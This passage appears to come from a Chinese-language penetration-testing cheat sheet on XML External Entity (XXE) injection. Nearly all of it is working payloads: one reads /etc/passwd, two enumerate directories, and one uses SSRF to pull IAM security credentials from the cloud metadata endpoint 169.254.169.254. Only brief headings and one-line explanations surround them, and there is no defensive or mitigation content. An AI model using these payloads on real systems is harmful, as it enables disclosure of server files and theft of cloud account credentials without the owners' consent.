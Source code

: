     ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE data [
    <!ELEMENT stockCheck ANY>
    <!ENTITY file SYSTEM "file:///etc/passwd">
    ]>
    <stockCheck>
        <productId>&file;</productId>
        <storeId>1</storeId>
    </stockCheck>
    ```

### 目录枚举

> 在基于 Java 的应用程序中，可能会通过 XXE 列出目录的内容

```xml
<!-- 根目录 / -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE aa[
	<!ELEMENT bb ANY>
	<!ENTITY xxe SYSTEM "file:///">
]>
<root>
    <foo>&xxe;</foo>
</root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
	<!ENTITY xxe SYSTEM "file:///etc/" >
]>
<root>
    <foo>&xxe;</foo>
</root>
```

### SSRF

> 要想 XXE 漏洞执行 SSRF 攻击，我们需要知道指定的 URL
>
> * 响应中存在资源
> * 响应中不存在资源，我们只能执行 Bind SSRF 攻击

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
	<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> 
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```
